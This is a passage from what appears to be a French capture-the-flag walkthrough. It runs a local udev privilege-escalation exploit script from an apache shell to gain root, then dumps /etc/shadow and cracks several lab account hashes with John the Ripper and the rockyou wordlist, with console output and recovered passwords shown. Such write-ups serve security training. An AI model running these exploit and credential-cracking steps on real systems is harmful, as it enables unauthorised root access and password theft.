Troisième essai : il aurait fallu que je lise attentivement le modop de cet exploit.

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ./8478.sh
./8478.sh
suid.c: In function 'main':
suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
/usr/bin/ld: cannot open output file /tmp/suid: Permission denied
collect2: ld returned 1 exit status
./8478.sh: line 131: 18439 Segmentation fault      /tmp/udev $1

bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

En effet, il faut passer le PID du gestionnaire de périphériques _udev_ en paramètre du script.

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ps -ef | grep udev
ps -ef | grep udev
root       379     1  0 07:10 ?        00:00:00 /sbin/udevd -d

bash-3.2$ ./8478.sh 379
./8478.sh 379
suid.c: In function 'main':
suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
/usr/bin/ld: cannot open output file /tmp/suid: Permission denied
collect2: ld returned 1 exit status
sh-3.2#

sh-3.2# id
id
uid=0(root) gid=0(root) groups=48(apache)
```

C'est gagné, nous sommes root !

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Pour conclure ce _walkthrough_, intéressons-nous au fichier /etc/shadow. Celui-ci contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil John The Ripper est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers /etc/passwd et /etc/shadow, comme suit...

```console
sh-3.2# cat /etc/shadow
cat /etc/shadow
root:$1$Ak2GEFmW$6iOwo7maaMRENjSG/mG.J.:14423:0:99999:7:::
bin:*:14397:0:99999:7:::
daemon:*:14397:0:99999:7:::
adm:*:14397:0:99999:7:::
lp:*:14397:0:99999:7:::
sync:*:14397:0:99999:7:::
shutdown:*:14397:0:99999:7:::
halt:*:14397:0:99999:7:::
mail:*:14397:0:99999:7:::
news:*:14397:0:99999:7:::
uucp:*:14397:0:99999:7:::
operator:*:14397:0:99999:7:::
games:*:14397:0:99999:7:::
gopher:*:14397:0:99999:7:::
ftp:*:14397:0:99999:7:::
nobody:*:14397:0:99999:7:::
rpm:!!:14397:0:99999:7:::
dbus:!!:14397:0:99999:7:::
avahi:!!:14397:0:99999:7:::
mailnull:!!:14397:0:99999:7:::
smmsp:!!:14397:0:99999:7:::
distcache:!!:14397:0:99999:7:::
apache:!!:14424:0:99999:7:::
nscd:!!:14397:0:99999:7:::
vcsa:!!:14397:0:99999:7:::
rpc:!!:14397:0:99999:7:::
rpcuser:!!:14397:0:99999:7:::
nfsnobody:!!:14397:0:99999:7:::
sshd:!!:14397:0:99999:7:::
squid:!!:14397:0:99999:7:::
mysql:!!:14397:0:99999:7:::
pcap:!!:14397:0:99999:7:::
haldaemon:!!:14397:0:99999:7:::
dovecot:!!:14418::::::
john:$1$mWFcMD52$Cnk.XsZ.vxpNIjMcRn8AP0:14419:0:99999:7:::
linda:$1$KDqdFFfU$wNrRtbShFLx5R7I/YWLMR1:14419:0:99999:7:::
fred:$1$jgdM97Rl$.nRcphYfCDGkWe0X7p7p/0:14419:0:99999:7:::
molly:$1$90uKe4zN$Y5pqf0NGx2aVLBxBTXZHh0:14419:0:99999:7:::
toby:$1$2vgQS3Bq$p4Aq.m1RYM3iWopT6Izg51:14419:0:99999:7:::
```

Notre dictionnaire préféré est appelé à la rescousse : Rockyou.

```console
root@blinils:~# unshadow passwdCTF6.txt shadowCTF6.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
beckham          (molly)
fred1982         (fred)
squirrel3        (linda)
--snip--
Session completed

root@blinils:~# john db --show
linda:squirrel3:501:501::/home/linda:/bin/bash
fred:fred1982:502:502::/home/fred:/bin/bash
molly:beckham:503:503::/home/molly:/bin/bash

3 password hashes cracked, 3 left
```
